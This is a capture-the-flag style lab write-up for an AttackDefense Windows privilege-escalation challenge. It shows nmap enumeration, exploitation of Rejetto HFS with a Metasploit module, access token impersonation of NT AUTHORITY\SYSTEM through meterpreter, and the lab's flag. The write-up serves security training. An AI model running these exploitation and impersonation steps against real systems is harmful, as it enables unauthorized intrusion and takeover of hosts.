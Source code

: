 # 🔬Access Token

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.28.102`
> * **Access Token impersonation**

### Enumeration

```bash
root@attackdefense:~# nmap 10.0.28.102
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-06 11:22 IST
Nmap scan report for 10.0.28.102
Host is up (0.0018s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

* Determine the version information of the web server on port `80`

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Without using `nmap`, the `http` server version can be checked in a browser by opening the link

* `http://10.0.28.102/`

<figure><img src="../../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
msfconsole -q
msf6 > search rejetto
```

<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > show options
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.102
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Access is denied because current user `LOCAL SERVICE` don't have access to an privileges user account
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### **Access Token Impersonation**

<figure><img src="../../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

<figure><img src="../../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Listing tokens with this account, there can be additional available tokens

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

* In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
* Get the flag of the lab:

```bash
cd C:\\Users\\Administrator\\Desktop\\
```

<figure><img src="../../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: x28c832a39730b7d46d6c38f1ea18e12
{% endhint %}

